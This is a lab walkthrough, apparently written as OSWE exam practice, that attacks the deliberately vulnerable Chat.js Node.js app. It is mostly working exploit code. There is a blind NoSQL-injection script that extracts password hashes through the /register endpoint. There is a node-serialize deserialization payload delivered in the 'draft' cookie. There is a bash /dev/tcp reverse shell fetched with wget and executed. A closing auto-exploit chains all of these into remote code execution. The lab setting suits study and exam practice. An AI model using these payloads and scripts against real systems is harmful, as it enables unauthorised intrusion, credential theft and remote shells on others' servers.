

A small web app writen in Node.JS to practice NoSQLi and deserialization exploits.

I got it from bmdyy. It's a preparation for OSWE exam. We'll cover here the code analysis and exploitation of this web app. The auto exploit is in the body of the post.

Hope you enjoy!

[Github ChatJS Page](https://github.com/bmdyy/chat.js)

# Diagram



## General Information

- Machine Name: Chat.js
- IP Add: 172.17.0.2
- Machine OS: Linux
- Open Ports: Just 3000
- Programming Language: NodeJS

## Detailed Information

* [x] Authentication method:
  * [x] Hashing/salted or in clear: Sha256
  * [x] Session cookies/tokens: Needed session token
  * [x] SQLi in login methods: Blind NO SQLInjection
  * [x] Cookies encoded or serialized: Drafts
  * [x] Difference between authenticated and unauthenticated pages: Can write messages
* [x] SQLi in code: 
  * [x] User controlled parameters: /register 
  * [x] Escapable quotes: Can't use single quotes
* [x] Serialization:
  * [x] Anything serialized or deserialized after authentication: Suspicios cookie
  * [x] Cookies: Drafts
  * [x] JSON: Yes
  * [x] Base64 encoded: Yes
* [x] Vulnerabilities discovered:
  * [x] Type: NO SQLInjection and Deserealization
  * [x] PoC: Done
* [x] Reverse Shell:
  * [x] Bash: Yes
  * [x] NodeJS: Yes

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 172.17.0.2
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 3000

We try to open it on the browser


We see a what seems to be a chat page

We can see many text messages in it, some usernames.

```
anton
bmdyy
john
darkrider
nightbus
swallow
```

There is a login page and a register page in it


### Login Page

We try to login as admin


We see that we have on burpsuite a request to /auth

With a cookie, username and password


We forward the request and get a redirect to the initial page


If we try with a non existent user, the page is the same


So, we don't have how to know if it's correct or incorrect.

### Register Page

So, we try to register a new user in it

/register


We register an user `0x4rt3mis:123456`


The page is the same, a redirect to the initial page

If we try to login, thats the same thing, so, we don't have too much to explore here


# Code Analysis

Now we can start the code analysis of the web app, to see if we found some kind of vuln in the body of the code

We look the `app.js` which is the file running on the server. And we can see almost all the functions there

The begin it starts just importing some modules and variables


The one which called more my attention was this one

```js
var serialize = require('node-serialize');
```

Serialize functions is always interesting to see.

```js
dbo.collection("users").findOne({ username:username, password:sha256_password }, function(err, result)
```

If it matches with the one on the database, it set the logged_in, username and user_id.

## /register

We look at the register page


```js
app.get('/register', function(req, res) {
    console.log('[*] ' + req.ip + ' > GET /register');
    if (req.session.logged_in == true) {
        res.redirect('/');
    }
    else {
        res.render('pages/register', {session: req.session, error:null});
    }
});
```

It's justing moving the user to the / page, so we cannot create new users here!

We look also on the register API, much more interesting


```js
app.post('/register', function(req, res) {
    console.log('[*] ' + req.ip + ' > POST /register');
    if (req.session.logged_in == true) {
        res.redirect('/');
    } else {
        var username = req.body.username;
        var password = req.body.password;
        if (username && password) {
            MongoClient.connect(db_url, { useNewUrlParser:true, useUnifiedTopology:true }, function(err, db) {
                if (err) {
                    throw err;
                }
                var dbo = db.db("chatjs");
                var query = {$where: `this.username == '${username}'`};
                dbo.collection("users").findOne(query, function(err, result) {
                    if (err) {
                        throw err;
                    }
                    if (result == null) {
                        // TODO: Actually insert new users
                        
                        // var sha256_password = crypto.createHash('sha256').update(password).digest('hex');
                        // dbo.collection("users").insertOne({
                        //     username:username,
                        //     password:sha256_password
                        // },function() {
                        //     res.redirect('/');
                        // });
                        res.redirect('/');
                    } else {
                        res.render('pages/register', {session: req.session, error:"User already exists"});
                    }
                });
            });
        }
    }
});
```

First it just log on the console the try. If the session is already looged in, just send the user to / page. If the user is note authenticated, it sets the variables username and password, from the request. If both are set, it tries to see if this username is already registered, if the query does not found the user, it redirect to / page. If the user alreadt exists the message shown in "User already exists".

And we can verify it on burp suite.

We get the bmddy user. Already exists


An invalid user, it redirect us to the / page


And we don't have how to get the authenticated page user, because we don't have a valid password.

Possibly we can do some SQLInjection in this line in order to bypass the login and get authenticated on the system

```js
var query = {$where: `this.username == '${username}'`};
dbo.collection("users").findOne(query, function(err, result)
```

Seems that it's making the query without any kind of sanitization. So what we pass as argument in the username param, will be processed on the server. We possibly have a SQLInjection in this field.

# SQLInjection NOSQL

Ok, what we got until now?

1 - We enumerate the web page to understand what it was done for.

2 - We tried to create a user and login.

3 - We started a source code analysis and found a possible SQLInjection in the /register api that will allow us to bypass the authentication.

For all sqlinjection, mainly the blind ones we need to have a false message and a true message.

This is a TRUE, because we know that the user bmdyy is already registered


This is a FALSE because we know that the user 0x4rt3mis does no exist


We can inject a query to extract the password from any user with this TRUE and FALSE query. What is the query we will use to extract user pass?

It's going to be this one

```
username=anton' && this.password.substring(58,59) =='8&password=0x4rt3mis
```

I'll use this.password.substring() function to get each character one time. It'll be iterating trough it and making the comparation with the letter or number, once we already have the FALSE/TRUE message, it's easy to see when it is the correct letter/number and when it's not.

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

We extracted from two users, bmdyy and anton, but it's possible for all users we have on the web app


nosqlinjection.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Blind NOSQLInjection Hash Extract from Chat.js

import argparse
import requests
import sys
import string
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def hashExtract(rhost,username):
    url = "http://%s" %rhost + ":3000/register"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 0
    limit_sup = limit_inf + 1
    iterator = 0
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=" + username + "'+%26%26+this.password.substring("+ str(limit_inf) +","+ str(limit_sup) +")+%3d%3d'" + c + "&password=0x4rt3mis"
            res = requests.post(url, data=payload, proxies=proxies, headers=headers, allow_redirects=False)
            # TRUE boolean message
            if "already exists" in res.text:
                password.append(c)
                limit_inf = limit_inf + 1
                limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be Extracted', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    
    '''Here we call the functions'''
    # Let's rock
    hashExtract(rhost,username)
    
if __name__ == '__main__':
    main()
```

Okay. That's it, we can extract all the users hash, now the we need to understand how we can byppass the authentication mechanims.

The hash is

```
fde0870a3adfef9a02a0f89dc36e6bcfbeade8a6667c837c93ee48a952402ec3
```

We can crack it on the internet


Sure, now let's see how it's being done the authentication on the website.

## /auth

We can get the source code of the auth too


```js
app.post('/auth', function(req, res) {
    console.log('[*] ' + req.ip + ' > POST /auth');
    if (req.session.logged_in == true) {
        res.redirect('/');
    } else {
        var username = req.body.username;
        var password = req.body.password;
        if (username && password) {
            MongoClient.connect(db_url, { useNewUrlParser:true, useUnifiedTopology:true }, function(err, db) {
                if (err) {
                    throw err;
                }
                var dbo = db.db("chatjs");
                var sha256_password = crypto.createHash('sha256').update(password).digest('hex');
                dbo.collection("users").findOne({ username:username, password:sha256_password }, function(err, result) {
                    if (err) {
                        throw err;
                    }
                    if (result) {
                        req.session.logged_in = true;
                        req.session.username = username;
                        req.session.user_id = result._id;
                    } 
                    req.session.save();
                    db.close();
                });
            });
        }
        res.redirect('/');
    }
});
```

It logs the requests on the console. If the user is already logged in, just redirect it to the / page. If not, set the username and password variables with the user input data. If both of them are setted. It hashes in sha256 the password, and test if it matches with the one in the database.

Once we have the username and password for bmdyy user, we can try to login, and see the cookies being setted

We login


On burpsuite


We get now a draft panel to send messages


We send a message to see how it parse the response


On BurpSuite


We have the draft cookie on the cookies tab, but nothing is seted as it

# Serialization

Now we see the first part of app.js


```js
app.get('/', function(req, res) {
    console.log('[*] ' + req.ip + ' > GET /');
    MongoClient.connect(db_url, { useNewUrlParser:true, useUnifiedTopology:true }, function(err, db) {
        if (err) {
            throw err;
        }
        var dbo = db.db("chatjs");
        dbo.collection("messages").aggregate([
            {
                $lookup:  {
                    from: 'users', 
                    localField: 'author', 
                    foreignField: '_id', 
                    as: 'author'
                }
            },
            {
                $sort: { 
                    datetime: -1 
                }
            },
            {
                $limit: 100
            }
        ]).toArray(function(err, result) {
            if (err) {
                throw err;
            }
            var draft = null;
            if (req.session.logged_in && req.cookies.draft) {
                draft = serialize.unserialize(new Buffer(req.cookies.draft, 'base64').toString()).msg;
            }
            res.render('pages/index', {messages: result, session: req.session, draft:draft});
            db.close();
        });
    });
});
```

Now, if the session is logged in we can reach the unserialize function

```js
var draft = null;
if (req.session.logged_in && req.cookies.draft) {
    draft = serialize.unserialize(new Buffer(req.cookies.draft, 'base64').toString()).msg;
}
```

It's getting the base64 in cookies draft, and serializing it, but just if the user is logged in. Once we already have the bmdyy password, we can login (creating a valid session) and setting manually the draft cookie, then executing it to get RCE and a reverse shell on the docker.

Okay, let's start building our payload to exploit this vulnerability.

We did a little research on the internet and found a [blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which explains exactly what you will do here.

1 - Let's try to see if it's vulnerable.

We will use a simple payload in charcode, once I already know that single quotes crashes the app

The payload we will use will be this one

```json
{"run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(PAYLOAD))}()"}
```

We create a simple way to concat the strings in hex to put into the payload

read.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Testing RCE in ChatJS from bmdyy

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def get_command(command):
    return '''
        require('child_process').exec('%s', function(error, stdout, stderr) {
            console.log(error)
            console.log(stdout)
        })
        ''' % (command)

def encode_string(string):
    string_encoded = ''
    for char in string:
        string_encoded += "," + str(ord(char))
    return string_encoded[1:]

def get_rce(command):
    payload = encode_string(get_command(command))
    print("{\"run\": \"_$$ND_FUNC$$_function (){eval(String.fromCharCode(%s))}()\"}" %payload)
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-c', '--command', help='Command to be executed', required=True)
    args = parser.parse_args()
    
    command = args.command
    
    '''Here we call the functions'''
    get_rce(command)
    
if __name__ == '__main__':
    main()
```


We base64 encode it, to put in the draft cookie


And execute it with a python web server opened on port 80


Okay, we got RCE. Now let's get a reverse shell in it

We create a simple bash script to get a reverse shell

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/172.17.0.1/448 0>&1' > reverse
```


We will download and execute it

```sh
python3 read.py -c "wget 172.17.0.1/reverse && bash reverse"
```


Base64 it


Execute as draft


And it has been downloaded an execute, we have reverse shell!


Now, let's automate the whole thing

# Exploit

We will use our read.py as base to our payload.

Here it is, auto exploit for this box.


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit for ChatJS

import argparse
import requests
import sys
import string
import hashlib
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64
import os
import random

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to extract the hash for the username selected
def hashExtract(rhost,username,wordlist):
    global password
    url = "http://%s" %rhost + ":3000/register"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 0
    limit_sup = limit_inf + 1
    iterator = 0
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=" + username + "'+%26%26+this.password.substring("+ str(limit_inf) +","+ str(limit_sup) +")+%3d%3d'" + c + "&password=0x4rt3mis"
            res = requests.post(url, data=payload, proxies=proxies, headers=headers, allow_redirects=False)
            # TRUE boolean message
            if "already exists" in res.text:
                password.append(c)
                limit_inf = limit_inf + 1
                limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    bruteHash(password,wordlist)
    
# Function to brute force the password hash
def bruteHash(password,wordlist):
    list = open(wordlist,"r",encoding='utf-8')
    text = list.readlines()
    global word
    for word in text:
        if word.endswith('\n'):
            word = word[:-1]
            word = word.encode('utf-8')
            brute = hashlib.sha256(word).hexdigest()
            if brute == password:
                print()
                word = word.decode("utf-8")
                print("[+] Password Found!!!! " + word + " [+]")
                return
                
# Function to login on the app to get a valid session
def loginAPP(rhost,username,word):
    print("[+] Let's login with the creds %s:%s !!! [+]" %(username,word))
    url = "http://%s:3000/auth" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "%s" %word}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Success logged in !!! [+]")

# Function to create the payload reverse bash
def createPayload(lhost,lport,file):
    print("[+] Creating the malicious bash !! [+]")
    os.system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/%s/%s 0>&1' > %s" %(lhost,lport,file))
    print("[+] Created !! [+]")

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

# Generate the malicious cookie js draft
def get_command(command):
    return '''
        require('child_process').exec('%s', function(error, stdout, stderr) {
            console.log(error)
            console.log(stdout)
        })
        ''' % (command)

# Encode it
def encode_string(string):
    string_encoded = ''
    for char in string:
        string_encoded += "," + str(ord(char))
    return string_encoded[1:]

# Mount it
def get_rce(command):
    payload = encode_string(get_command(command))
    not_encoded = "{\"run\": \"_$$ND_FUNC$$_function (){eval(String.fromCharCode(%s))}()\"}" %payload
    global encoded
    encoded = b64e(not_encoded)

# Geeeeet reverseeeeeee
def getReverse(rhost,encoded):
    print("[+] Now, let's get the reverse one !! [+]")
    cookies = {'draft': '%s' %encoded}
    url = "http://%s:3000/" %rhost
    r.get(url, cookies=cookies, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be Extracted', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used to brute force the hash', required=True)
    parser.add_argument('-li', '--lhost', help='Local ip to receive connection', required=True)
    parser.add_argument('-lp', '--lport', help='Local port to receive connection', required=True)

    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.lhost
    lport = args.lport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Let's get the hash and brute force it
    hashExtract(rhost,username,wordlist)
    # Let's loging
    loginAPP(rhost,username,word)
    # Create the malicious bash file
    file = random.randrange(10000,99999)
    createPayload(lhost,lport,file)
    # Create the malicious command, with b64 auto
    command = "wget %s/%s && bash %s" %(lhost,file,file)
    get_rce(command)
    # Get reverseeeeeeerrererere
    getReverse(rhost,encoded)
    
if __name__ == '__main__':
    main()
```